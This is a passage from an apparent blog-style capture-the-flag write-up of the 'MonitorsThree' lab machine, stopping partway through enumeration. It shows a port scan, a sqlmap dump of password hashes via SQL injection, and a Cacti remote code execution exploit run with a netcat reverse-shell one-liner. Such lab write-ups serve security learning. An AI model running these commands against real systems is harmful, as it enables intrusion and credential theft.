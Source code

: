 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: blog
---
```


MonitorsThree Writeup by <span style="color:yellow">Maniaa</span>.

<pre><code>print("hello world")</code></pre>


```text
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.67 seconds
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page here:

![87a47714dbabb2c8a2718f6dffba59dc.png](../../../../_resources/87a47714dbabb2c8a2718f6dffba59dc.png)

Verified with the input '.

It might be blind, which would be somewhat difficult.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![f8705210e7dd5cec47d6ec19f2b9fbd0.png](../../../../_resources/f8705210e7dd5cec47d6ec19f2b9fbd0.png)

This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8:greencacti2001
```

I then attempted to crack the hashes via hashcat, however only one was successful:

![1735c8eea85caf68dbaeebd7ec9ccfa0.png](../../../../_resources/1735c8eea85caf68dbaeebd7ec9ccfa0.png)

We now have the credentials for admin@monitorsthree.htb.

&nbsp;

# Cacti

I found a cacti subdomain:

![23d1d19eea398363b2d2b09fda498b28.png](../../../../_resources/23d1d19eea398363b2d2b09fda498b28.png)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![729b187df6d1fb53dace4f0e404a9b80.png](../../../../_resources/729b187df6d1fb53dace4f0e404a9b80.png)

Cacti 1.2.26 suffers from rce via import template.

https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26

```
my-venv/bin/python3 CVE-2024-25641.py --user admin --pass greencacti2001 --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f" http://cacti.monitorsthree.htb/cacti/
```

![19df152b8325579e01ff1d6f670f08e8.png](../../../../_resources/19df152b8325579e01ff1d6f670f08e8.png)

&nbsp;

Marcus is a user of cacti, and is also the only user on the machine:

![434874204e3549add6b2dfb00dc84d00.png](../../../../_resources/434874204e3549add6b2dfb00dc84d00.png)

Now we have access to the machine, I find the sql database has the base cactiuser enabled, meaning we should be able to auth as that user and access the hashed credentials of marcus which we could then attempt to crack.

![e7de064f30575ba6f4a8606986748179.png](../../../../_resources/e7de064f30575ba6f4a8606986748179.png)

Maybe crackable?
